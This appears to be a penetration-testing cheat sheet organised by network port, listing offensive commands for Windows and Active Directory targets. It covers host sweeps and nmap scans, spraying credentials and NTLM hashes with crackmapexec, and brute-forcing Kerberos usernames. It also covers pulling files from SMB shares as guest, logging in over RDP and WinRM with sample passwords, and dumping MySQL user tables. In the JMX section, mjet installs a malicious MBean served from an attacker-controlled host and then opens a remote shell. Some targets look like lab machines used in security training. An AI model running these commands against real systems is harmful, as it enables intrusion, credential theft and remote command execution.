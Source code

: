 ## Scan  
**Discover the hosts on the network (Linux) :**   
`for i in {1..255};do ping -c 1 192.168.110.$i > /dev/null;if [ $? -eq 0];then echo 192.168.110.$i;fi;done`   
`nmap -Pn -p- -v 192.168.110.1-255`   

**Discover the hosts on the network (Windows) :**
Use PowerSploit's function `Invoke-Portscan` : https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1    
`. .\Invoke-Portscan.ps1`  
`Invoke-Portscan -TopPorts 1000 -Hosts 192.168.210.0/24 -oA results`


**Scan all ports on a host and execute nmap scripts (Linux & Windows):**   
`nmap -A -p- -v 192.168.110.55`  

**Spray creds on several hosts (Linux & Windows):**   
`crackmapexec smb <host> -d <domain> -u <username> -p <password> -H <hash> --shares`  
`crackmapexec winrm 192.168.110.0/24 -u Tom -H '8af1903d3c80c3552a84b6ba299db2ea' --local-auth`  


## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
<br/>
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     
<br/>
## Port 135 - MSRPC  
TODO  
<br/>
## Port 445 - SMB
**List SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152"`  
`smbclient -U ".\Guest" -L //10.10.11.152`   
    
**Browse SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`   
`smbmap -u 'john' -p 'P@ssw0rd123' -d domain.local -H "192.168.110.10" -r "IPC$"`  
      
**Download SMB files (python, Linux & Windows):**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`    
<br/> 
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
<br/>  
  
## Port 3389 - RDP  
From Linux:   
```
xfreerdp -u john -p 'Habile@123!' -v 192.168.210.15
```
      
## Ports 5985,5986 - WinRM  
Using Evil-WinRM (Linux & Windows) :    
`gem install evil-winrm`  
`evil-winrm –i <host> –u <username> [-p <password>] [-H <hash>]`  
   
Using WinRS.exe (native PowerShell client):  
`$ winrs /r:<host> /u:<domain\username> /p:<password> <command>`  
  
Using native PowerShell :    
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`   
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`  
  
## Port 3306 - MySQL   
`PowerUpSQL.ps1` can be used : https://github.com/NetSPI/PowerUpSQL    
    
**Connect to the MySQL service:**  
`mysql -u <user> -p -h localhost`  
  
**Once connected to the DB:**    
Enumerate the databases:  
`SHOW DATABASES;` 
  
Select a database:  
`use <database>`
    
List the database tables:  
`SHOW TABLES;`  
  
See the content of the 'users' table:  
`DESCRIBE users;`  
  
Extract data (password hashes for example) from the 'users' table:  
`SELECT * FROM users;`   
    
  
## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`  
